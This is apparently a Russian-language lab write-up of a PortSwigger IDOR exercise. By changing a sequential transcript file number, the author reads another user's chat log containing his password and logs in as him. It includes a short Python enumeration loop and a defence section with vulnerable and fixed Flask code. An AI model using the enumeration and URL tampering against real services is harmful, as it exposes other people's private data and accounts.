



# Lab: Insecure Direct Object References

**Платформа:** PortSwigger Web Security Academy  
**Категория:** Access Control / IDOR  
**Сложность:** Apprentice  
**Дата:** 2025-07-22  

---

## TL;DR
Логи чата хранятся в файловой системе сервера и доступны
по прямым статическим URL с последовательными номерами.
Изменив номер файла с `2.txt` на `1.txt` получила доступ
к чату carlos где он указал свой пароль.

---

## Описание уязвимости

IDOR через файловую систему — файлы доступны по предсказуемым
URL без проверки прав доступа. В отличие от предыдущих лаб
где идентификатор был в параметре запроса — здесь он в имени файла.

```
/download-transcript/2.txt  → мой лог чата
/download-transcript/1.txt  → чужой лог чата (carlos)
```

Сервер не проверяет принадлежит ли запрошенный файл
текущему пользователю.

---

## Эксплуатация

### Шаг 1 — Анализ функции чата

Открыла вкладку Live chat. Отправила тестовое сообщение.
Нажала View transcript — скачался файл лога чата.

Посмотрела URL скачанного файла:

```
https://LAB-ID.web-security-academy.net/download-transcript/2.txt
```

Имя файла — последовательный номер `2.txt`. Значит до меня
был другой пользователь с файлом `1.txt`.



### Шаг 2 — Перебор номеров файлов

Изменила номер файла с `2` на `1`:

```
https://LAB-ID.web-security-academy.net/download-transcript/1.txt
```

Файл скачался. Открыла его — это лог чата carlos где он
сообщил свой пароль в переписке со службой поддержки:

```
SUPPORT: Hello! How can I help you today?
CARLOS: I forgot my password. Can you reset it?
SUPPORT: What would you like your new password to be?
CARLOS: My new password is: ПАРОЛЬ_CARLOS
```



### Шаг 3 — Вход под carlos

Перешла на страницу логина, ввела:

```
Username: carlos
Password: [пароль из лога чата]
```


---

## Итог

```
/download-transcript/2.txt  → мой лог (скачала через кнопку)
         ↓
Изменить номер: /download-transcript/1.txt
         ↓
Сервер не проверяет кому принадлежит файл
         ↓
Получила лог чата carlos → пароль в тексте
         ↓
Вход под carlos → лаба решена
```

### Почему файлы с последовательными номерами опасны

```
2.txt  → мой файл
1.txt  → carlos
3.txt  → следующий пользователь

Последовательные номера легко перебрать:
for i in range(1, 1000):
    response = requests.get(f'/download-transcript/{i}.txt')
    if response.status_code == 200:
        print(f'Найден файл {i}.txt')
        print(response.text)
```

---

## Защита

```python
# УЯЗВИМО — файл доступен любому знающему URL:
@app.route('/download-transcript/<filename>')
def download(filename):
    return send_file(f'/transcripts/{filename}')

# БЕЗОПАСНО — проверка принадлежности файла пользователю:
@app.route('/download-transcript/<filename>')
def download(filename):
    user_id = session.get('user_id')
    transcript = db.get_transcript(filename)

    if not transcript or transcript.user_id != user_id:
        abort(403)

    return send_file(f'/transcripts/{filename}')
```

```python
# ЕЩЁ ЛУЧШЕ — использовать непредсказуемые имена файлов:
import uuid

def save_transcript(user_id, content):
    filename = f'{uuid.uuid4()}.txt'  # случайный GUID
    db.save_transcript(user_id=user_id, filename=filename)
    with open(f'/transcripts/{filename}', 'w') as f:
        f.write(content)
    return filename
```

Дополнительно:
- Никогда не хранить чувствительные данные (пароли)
  в логах чатов или любых текстовых файлах
- Использовать непредсказуемые имена файлов (GUID)
  как дополнительный слой защиты
- Проверять права доступа при каждом запросе к файлу
- Хранить файлы вне веб-корня и отдавать через контроллер
  а не через прямые статические URL